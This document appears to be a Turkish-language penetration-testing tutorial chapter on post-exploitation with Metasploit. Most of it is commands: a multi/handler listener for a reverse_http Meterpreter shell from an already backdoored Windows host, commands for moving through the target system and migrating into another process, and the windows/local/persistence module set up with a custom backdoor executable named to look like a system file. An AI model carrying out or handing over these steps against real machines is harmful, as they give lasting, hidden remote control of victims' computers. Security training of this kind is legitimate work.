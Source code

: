 
# Bölüm 19: Hackledikten Sonrası

> Not: Bu işlemleri gerçekleştirebilmek için hedef bilgisayara önceden bir **backdoor** yerleştirilmiş olması gerekir.

---

## 🎯 Meterpreter Oturumu Başlatma

```bash
msfconsole

use exploit/multi/handler

show options

set PAYLOAD windows/meterpreter/reverse_http

set LHOST 10.0.2.15

exploit
```

Oturum açıldığında mevcut bağlantıları görüntülemek için:

```bash
sessions -l
sessions -1
```

### Meterpreter İçinden Komutlar

```bash
meterpreter > ls                 # Dosya ve dizinleri listeler
meterpreter > background         # Oturumu arka plana alır
meterpreter > sysinfo            # Sistem bilgilerini listeler
meterpreter > help               # Tüm komutları gösterir
meterpreter > ps                 # Çalışan işlemleri listeler
meterpreter > migrate 2824       # Belirli bir işlem ID’sine geçiş
```

---

## 🔁 Bağlantıyı Kalıcı Hale Getirmek (Persistence)

```bash
meterpreter > background

use exploit/windows/local/persistence

show options

set EXE_NAME winexplore.exe

show advanced

set EXE::Custom var/www/html/backdoors/kirk_newpayload.exe

exploit

set PAYLOAD windows/meterpreter/reverse_http
```

---

## 📌 Özet

- `multi/handler` ile bağlantı beklenir
- Meterpreter ile hedef sistem yönetilir
- `migrate`, `sysinfo`, `ps` gibi komutlarla sistemde gezilir
- `windows/local/persistence` modülü ile bağlantı kalıcı hale getirilir
